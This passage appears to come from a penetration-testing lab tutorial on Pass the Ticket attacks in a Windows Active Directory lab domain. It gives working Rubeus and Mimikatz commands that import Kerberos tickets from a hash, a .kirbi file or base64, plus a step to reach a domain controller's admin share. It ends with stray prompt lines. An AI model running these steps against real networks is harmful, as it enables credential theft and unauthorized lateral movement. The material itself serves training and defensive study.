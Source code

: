 ```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
Note that now it displays `Ticket successfully imported!`.

Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

#### Rubeus - Pass the Ticket

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

#### Convert .kirbi to Base64 Format

  Pass the Ticket (PtT) from Windows

```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))

doQAAAWfMIQAAAWZoIQAAAADAgEFoYQAAAADAgEWooQAAAQ5MIQAAAQzYYQAAAQtMIQAAAQnoIQAAAADAgEFoYQAAAAJGwdIVEIuQ09NooQAAAAsMIQAAAAmoIQAAAADAgECoYQAAAAXMIQAAAARGwZrcmJ0Z3QbB0hUQi5DT02jhAAAA9cwhAAAA9GghAAAAAMCARKhhAAAAAMCAQKihAAAA7kEggO1zqm0SuXewDEmypVORXzj8hyqSmikY9gxbM9xdpmA8r2EvTnv0UYkQFdf4B73Ss5ylutsSsyvnZYRVr8Ta9Wx/fvnjpJw/T70suDA4CgsuSZcBSo/jMnDjucWNtlDc8ez6<SNIP>
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

#### Pass the Ticket - Base64 Format

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

```cmd-session
c:\tools> dir \\DC01.inlanefreight.htb\c$
```
Finally, we can also perform the Pass the Ticket attack using the Mimikatz module `kerberos::ptt` and the .kirbi file that contains the ticket we want to import.

#### Mimikatz - Pass the Ticket
```cmd-session
C:\tools> mimikatz.exe 
```
```cmd-session
mimikatz # privilege::debug
```
```cmd-session
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname